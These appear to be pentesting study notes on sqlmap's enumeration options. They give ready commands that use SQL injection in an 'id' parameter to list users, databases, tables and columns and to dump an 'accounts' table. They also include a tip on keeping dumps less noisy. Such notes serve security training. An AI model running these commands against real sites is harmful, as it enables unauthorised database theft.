





SQLMap
Enumeration
specify which informations we want to retrieve from the database
--users → enumerate users that manages database
sqlmap -u http://example.net/newsdetails.php?id='26' -p id --users

-b OR --banner → database banner to know database engine and version
sqlmap -u http://example.net/newsdetails.php?id='26' -p id --banner

--dbs → Enumerate databases
sqlmap -u http://example.net/newsdetails.php?id='26' -p id --dbs

-D <DATABASE_NAME> → specific database to enumerate
--tables → enumerate the tables of the database specifed, if we not specify the database sqlmap will extract all the tables of the database.
sqlmap -u http://example.net/newsdetails.php?id='26' -p id -D awd --tables

-T <TABLE> → specific table to enumerate
--columns → enumerate columns of the tables
sqlmap -u http://10.124.211.96/newsdetails.php?id='26' -p id -D awd -T accounts --columns

-C <column> → specific the column(s) that we want to dump(extract informations)
--dump
→ retrieve all the informations requested
(but request directly all the data in the database is very noisy! is better specify columns,tables..)
sqlmap -u http://example.net/newsdetails.php?id='26' -p id -D awd -T accounts --dump

Options enumeration
• Limit the number of rows to retrieve
◇ --start=N
◇ --stop=N
• Conditional with where
◇ --where ="condition..."
• Dump all the database
◇ --dump-all --exclude-sysdbs → dump all the DB but not the system databases, which usually are of little interest for pentesters
miscellaneous:
--wizard → easy interface to help beginner users to configure sqlmap
-v <VERBOSE> → Verbosity level: 0-6 (default 1). For more accurate explanation we can set -v3
--flush-session → sqlmap save what we have done and found in files under the folder /usr/share/sqlmap/output/sqlmap.test/. If we want a fresh start, we have to flush
POST
--data=<DATA> → content of a http POST request